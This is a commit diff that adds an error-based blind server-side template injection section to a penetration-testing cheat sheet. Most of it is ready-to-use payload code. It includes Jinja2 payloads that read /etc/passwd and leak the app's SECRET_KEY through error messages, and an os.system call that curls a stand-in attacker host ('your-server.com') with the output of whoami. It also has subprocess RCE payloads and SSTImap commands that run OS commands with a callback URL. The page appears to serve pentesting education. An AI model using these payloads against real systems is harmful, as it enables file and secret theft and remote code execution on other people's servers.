

Before and after one commit to noobosaurus-r3x/hackus-codex, an MkDocs documentation site: the page built from docs/vulns/injection/ssti.md, in a window 1280 px wide and 1400 px high, scrolled down 3450 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 4228 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
feat: add error-based blind SSTI techniques to ssti.md
- Error-based SSTI detection via engine-specific error fingerprinting
- Polyglot payload for engine identification
- Data extraction via exception messages (no output reflection needed)
- Blind RCE confirmation via OOB callback
- Source: Vladislav Korchagin, PortSwigger Top 10 2025 #1

````diff
--- a/docs/vulns/injection/ssti.md
+++ b/docs/vulns/injection/ssti.md
@@ -146,10 +146,83 @@ __${T(java.lang.Runtime).getRuntime().exec("id")}__::.x
 @System.Diagnostics.Process.Start("cmd.exe","/c whoami")
 ```
 
+## Error-Based Blind SSTI (2025 Technique)
+
+**Source:** "Successful Errors: New Code Injection and SSTI Techniques" by Vladislav Korchagin — PortSwigger Top 10 2025 #1. Adapted old SQL injection error-based techniques for template engines.
+
+**Core insight:** Trigger controlled errors that **reveal** execution results, bypassing the need for output reflection.
+
+### Polyglot Detection
+
+When you can't tell which engine, use error fingerprinting:
+
+```
+# The payload causes engine-specific errors
+{{7*'7'}}[[3*3]]<%= 7*7 %>${{3*3}}#{3*3}*{3*3}
+# Each engine breaks differently → fingerprint via error message
+```
+
+**Error-based fingerprinting workflow:**
+```bash
+# Send to Jinja2
+{{undefined_var}}
+# Error: "jinja2.exceptions.UndefinedError: 'undefined_var' is undefined"
+
+# Send to Twig
+{{undefined_var}}
+# Error: "Variable "undefined_var" does not exist."
+
+# Send to ERB
+<%= undefined_var %>
+# Error: "undefined local variable or method `undefined_var'"
+```
+
+### Error-Based Data Extraction (Jinja2)
+
+```python
+# Traditional: need output reflection
+{{ config }}  # Output: <Config {'KEY': 'value'}>
+
+# Error-based: trigger error containing data
+{{ ''.__class__.__mro__[2].__subclasses__()[42]('/etc/passwd').read()[:50] + undefined }}
+# Error message contains the first 50 chars of /etc/passwd!
+
+# Extraction via exception
+{% set x = config['SECRET_KEY'] %}{% if x %}{{ x + undefined }}{% endif %}
+# If SECRET_KEY exists → error contains its value
+
+# Numeric extraction via type errors
+{{ config['SECRET_KEY'][0:1] * 10000000000000 }}
+# Triggers integer overflow → error reveals character
+```
+
+### Blind RCE Confirmation (Out-of-Band)
+
+```python
+# Can't see output but want RCE confirmation
+# Use OOB callback (works with CallMeBack)
+{{ self.__init__.__globals__.__builtins__.__import__('os').system('curl https://your-server.com/$(whoami)') }}
+
+# Or via subprocess
+{{ self.__init__.__globals__.__builtins__.__import__('subprocess').check_output(['id']).decode() + undefined }}
+# Error contains command output!
+```
+
+### SSTImap Updated Usage
+
+```bash
+# SSTImap now includes error-based techniques
+python3 sstimap.py -u "http://target/?name=test" --technique error
+
+# Blind injection (no output in response)
+python3 sstimap.py -u "http://target/?name=test" --os-cmd "id" --technique oob \
+  --callback-url https://your-server.com/
+```
+
 ## Tools
 
 ```bash
-# SSTImap
+# SSTImap (updated with error-based techniques)
 python3 sstimap.py -u "http://target/?name=test"
 
 # TInjA
````
